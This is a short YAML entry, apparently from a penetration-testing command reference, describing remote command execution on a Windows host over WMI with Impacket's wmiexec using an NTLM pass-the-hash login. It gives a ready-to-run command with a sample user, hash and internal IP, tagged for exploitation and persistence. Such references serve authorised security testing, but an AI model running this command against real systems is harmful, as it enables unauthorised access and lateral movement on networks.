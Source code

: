 ```yaml
---
description: Execute commands remotely over WMI on a Windows host using Impacket's wmiexec with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-wmiexec -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 john@10.10.10.1

items:
  - Hash
  - Shell
  - PowerShell

services:
  - WMI
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation
  - Persistence

references:
  - https://github.com/fortra/impacket
---
```

